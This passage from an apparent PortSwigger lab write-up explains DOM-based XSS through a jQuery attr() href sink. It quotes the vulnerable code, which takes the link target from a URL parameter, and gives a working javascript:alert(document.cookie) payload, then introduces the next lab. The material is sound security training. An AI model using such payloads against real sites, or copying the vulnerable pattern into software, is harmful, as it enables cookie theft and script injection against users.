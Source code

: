 ```javascript!
...
<div class="is-linkback">
    <a id="backLink">Back</a>
</div>
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
...
```
:::
According to the source code, we can inject some malicious path to replace `/`
### Exp
Payload: `/feedback?returnPath=javascript:alert(document.cookie);`
After you modified the URL, then you hit enter and click `Back` button down the page. Then it should be triggered.
:::spoiler Result
![](https://i.imgur.com/Zjd2Jm7.png)

![](https://i.imgur.com/JRpKTAq.png)
:::

### Reference
[PortSwigger Labs - DOM XSS in jQuery anchor href attribute sink using location.search source](https://youtu.be/RmyZgpqMfcM)
[DOM XSS in jQuery anchor href attribute sink using ... (Video solution, Audio)](https://youtu.be/B2E9cEZQQXg)
:::spoiler [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
> If a JavaScript library such as jQuery is being used, look out for sinks that can alter DOM elements on the page. For instance, jQuery's attr() function can change the attributes of DOM elements. If data is read from a user-controlled source like the URL, then passed to the attr() function, then it may be possible to manipulate the value sent to cause XSS. For example, here we have some JavaScript that changes an anchor element's href attribute using data from the URL: 
> ```javascript
> $(function() {
>	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
> });
>```
:::

---
## Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
* Description: This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string.
* Goal: To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.
